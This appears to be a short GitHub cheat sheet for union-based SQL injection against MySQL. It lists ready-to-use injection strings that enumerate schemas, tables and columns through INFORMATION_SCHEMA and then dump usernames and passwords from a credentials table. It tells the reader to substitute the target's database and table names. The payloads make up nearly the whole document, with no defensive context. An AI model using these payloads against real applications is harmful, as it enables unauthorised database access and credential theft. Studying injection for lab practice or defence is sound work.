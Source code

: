 # sql-injection

### Union Base SQL Injection
##### Schema,Schemata check

      mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

#### Step 1: Schema/Database check

     cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

#### Step 2: Tables check

      cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

Here , dev is database name which will replace to your target database name

#### Step3: Columns check

      cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

Here , credentials is table name whick will replace to your target table name

#### Step4: Dum Data from table:

      cn' UNION select 1, username, password, 4 from dev.credentials-- -

Where username and password are column name , dev is database name , credentials is table name

